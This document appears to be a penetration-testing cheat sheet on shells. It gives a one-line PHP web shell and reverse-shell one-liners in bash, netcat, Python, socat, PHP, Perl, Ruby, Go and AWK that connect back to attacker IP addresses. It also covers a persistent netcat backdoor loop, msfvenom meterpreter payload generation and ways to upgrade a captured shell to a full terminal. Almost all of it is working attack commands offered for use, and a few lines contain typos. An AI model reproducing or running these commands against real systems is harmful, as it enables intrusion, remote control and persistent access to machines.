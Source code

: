 # Shells 
## Contents
- [Shells](#shells)
  * [Contents](#contents)
  * [Web shells](#web-shells)
  * [Debugging Shells](#debugging-shells)
  * [Reverse shell commands](#reverse-shell-commands)
  * [Msfvenom Payloads](#msfvenom-payloads)
  * [Upgrading to a pseudo terminal / TTY](#upgrading-to-a-pseudo-terminal---tty)

## Web shells 
[phpbash web shell](https://github.com/Arrexel/phpbash)  
[pentest monkey php shell](https://github.com/pentestmonkey/php-reverse-shell)  
[p0wney web shell](https://github.com/flozz/p0wny-shell)  
[white winter wolf web shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)  
[collection of PHP webshells](https://github.com/JohnTroony/php-webshells/tree/master/Collection)    
/usr/share/seclists/Web-Shells    

    <?php if(isset($_GET[0])){echo $_GE[0]($_GET[1]) } ? >     

## Debugging Shells   
executing a command and no response - maybe the command is redirecting to stderr not stdout?
2>&1
Check for versions / path variables  
No path variable? Need absolute path 

    /bin/bash -c 'id'   

## Reverse shell commands  
### Bash (requires /dev/tcp support, primarily found in RedHat/Debian distros):  
One bash version (compromised account's shell must be bash; does not work via www-data):  

    bash -i >& /dev/tcp/10.6.85.85/4444 0>&1   
Two bash version (safer, since parent shell can be anything):    

    bash -c 'bash -i >& /dev/tcp/172.17.0.2/1337 0>&1'     
### netcat  
nc w/ -e (traditional):  

    rlwrap nc -e /bin/sh 172.16.5.1 4242   
    
    -e /bin/sh 
    -e /bin/bash
    -e /bin/zsh
    -e /bin/ash
    
nc openbsd (no -e):    

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.6.85.85 53 >/tmp/f    
    
Persistent netcat backdoor using a while loop or nohup:  

    while [1 ]; do echo "Started"; nc -l -p 443 -e /bin/sh; done     #goes away if user logs out, make persistent using nohup     
    no hup ./listener.sh &    #listener.sh: above line. Make a process keep running, ignores logout signal 
    
### other languages  
Python: 

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",53));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")' 
    
Python ipv6:

    python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");' 
    
socat                     

    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:4444 
    
PHP            
    
    php -r '$sock=fsockopen("10.6.85.85",4444);exec("/bin/sh -i <&3 >&3 2>&3");' 

Perl 

    perl -e 'use Socket;$i="IP ADDRESS";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
 
Ruby 

    ruby -rsocket -e'f=TCPSocket.open("IP ADDRESS",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
    
    ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[IPADDR]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
    
    
Golang 

    echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","IP ADDRESS:8080");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go

AWK

    awk 'BEGIN {s = "/inet/tcp/0/IP ADDRESS/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
    
[Tiberius Reverse Shells](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/reverse-shells.rst) 

[Payload All the Things Reverse Shells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) 

[Reverse Shell Cheatsheet](https://github.com/d4t4s3c/Reverse-Shell-Cheat-Sheet)  

[Reverse and Bind Shells with Socat](https://erev0s.com/blog/encrypted-bind-and-reverse-shells-socat/)

## Msfvenom Payloads 
[Reference](https://thedarksource.com/msfvenom-cheat-sheet-create-metasploit-payloads/)    

    msfvenom -l payloads      #list payloads    
    msfvenom -l encoders      #list encoders 
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf	
    msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf	
    msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf	
    msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
   
PHP   

    msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
    cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php   
    target $ php shell.php    
Python    

    msfvenom -p python/meterpreter/reverse_tcp RHOST=10.10.16.192 LPORT=4444 -f raw > shell.py    
## Upgrading to a pseudo terminal / TTY     
[Reference](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)  
[What Happens in a Shell Upgrade?](What Happens In a "Shell Upgrade"?)   

    python -c 'import pty;pty.spawn("/bin/bash")' 
    echo os.system('/bin/bash')
    /bin/sh -i  
    script /dev/null -c bash      #create new pty owned by current user, fixed in newer versions of screen        
    
    SHELL=/bin/bash script -q /dev/null        Ctrl-Z        stty raw -echo        fg    reset    xterm
    
    Can you upload a [socat static binary](https://github.com/andrew-d/static-binaries)? 
    
    vi -> :sh or :!UNIX_command
    perl —e 'exec "/bin/sh";' 
    perl: exec "/bin/sh"; 
    ruby: exec "/bin/sh" 
    lua: os.execute('/bin/sh') 
    

